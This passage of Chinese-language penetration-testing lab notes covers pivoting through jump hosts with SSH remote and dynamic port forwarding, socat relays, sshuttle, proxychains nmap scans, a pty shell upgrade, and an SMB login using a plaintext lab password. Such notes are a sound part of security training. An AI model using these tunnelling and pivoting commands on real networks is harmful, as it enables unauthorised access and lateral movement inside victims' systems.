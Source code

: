 ```armasm
sudo systemctl start ssh
sudo ss -ntplu
```

跳板1上ssh连接kali

```armasm
python3 -c 'import pty; pty.spawn("/bin/bash")'
ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4
```

连接成功后kali上会开启2345端口，kali上连接自己的2345就是跳板2的5432端口

```armasm
ss -ntplu
psql -h 127.0.0.1 -p 2345 -U postgres
```

### 18.3.4 远程动态端口转发

kali（192）---跳板1（192和10）---跳板2（10和172）

跳板1上ssh连接kali

```armasm
python3 -c 'import pty; pty.spawn("/bin/bash")'
ssh -N -R 9998 kali@192.168.118.4
```

连接成功后kali上开启了9998的socks代理

```armasm
sudo ss -ntplu
tail /etc/proxychains4.conf
socks5 127.0.0.1 9998
proxychains nmap -vvv -sT --top-ports=20 -Pn -n 10.4.50.64
```

### 18.3.5 sshuttle

kali（192）---跳板1（192和10）---跳板2（10和172）--目标（172）

跳板1上做端口转发

```armasm
socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22
```

kali上通过跳板1的转发ssh到跳板2上，并添加10和172网段

```armasm
sshuttle -r database_admin@192.168.50.63:2222 10.4.50.0/24 172.16.50.0/24
```

连接成功后kali可以直接访问10和172段

```armasm
smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234
```

